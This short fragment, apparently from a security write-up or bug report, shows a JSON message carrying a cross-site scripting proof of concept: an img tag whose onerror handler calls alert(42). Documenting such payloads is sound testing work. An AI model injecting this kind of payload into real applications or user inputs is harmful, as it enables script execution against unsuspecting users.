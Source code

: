 The following payload was sent from client to the server. If executed successfully an alert with the message 42 pops up!

**{"message":"<img src=x onerror='alert(42)'>"}**
